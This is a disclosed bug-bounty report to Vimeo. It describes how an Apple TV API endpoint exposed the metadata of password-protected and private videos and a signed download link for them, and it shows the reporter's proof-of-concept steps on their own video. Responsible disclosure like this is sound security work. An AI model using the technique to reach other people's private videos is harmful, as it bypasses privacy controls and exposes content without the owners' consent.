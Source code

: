 # Downloading password protected / restricted videos

## Report Details
- **Report ID**: 145467
- **URL**: https://hackerone.com/reports/145467
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-06-17T16:40:05.223Z
- **Disclosed**: 2016-09-05T13:37:39.122Z

## Reporter
- **Username**: gazza
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: vimeo

## Vulnerability Information
Using: https://vimeo.com/api/atv/clip/VideoID it is possible to get the title, description & download the file regardless on any privacy settings (this includes both setting the video to 'Only me' and using a password)

For proof using my own video: https://vimeo.com/171116158 which has the password *gazza_hacker1* (as shown in the screenshot) - all testing was done in a separate browser to avoid already being authenticated

Metadata page: https://vimeo.com/api/atv/clip/171116158/

<key>title</key>
<string>Proof of access</string>
<key>subtitle</key>
<string>by aaaa aaaa</string>
...
<key>summary</key>
<string>
Viewing metadata and subsequently downloading of this video without entering password proves that this is a vulnerability
</string>

In order to download the video, the *play* xml file with signature is used:

<key>event-handlers</key>
<dict>
<key>action</key>
<string>load-url</string>
<key>parameters</key>
<dict>
<key>url</key>
<string>
https://vimeo.com/api/atv/clip/171116158/play?signature=4537ede998fa162e9d9ea1c7c9dcfd88ac3092df&timestamp=1466180664
</string>

Which when visited, contains the URL where the file can be downloaded: 

<key>media-url</key>
<string>
https://vimeo-prod-src-std-eu.storage.googleapis.com/videos/550779256?GoogleAccessId=GOOGHOVZWCHVINHSLPGA&Expires=1466184013&Signature=5RHxaH9oQogEKeUQ3NaDtVU%2FBNU%3D
</string>


**P.S:** The above link may have expired by the time this report is viewed; replicating the steps starting from https://vimeo.com/api/atv/clip/171116158/ will allow it to be downloaded. In addition, depending on the browser, it may simply be named *550779256* when it is downloaded. It is in fact an mp4 file and if renamed such (or playback is attempted) you will see this is the same video.


## Attachments
- proof.PNG

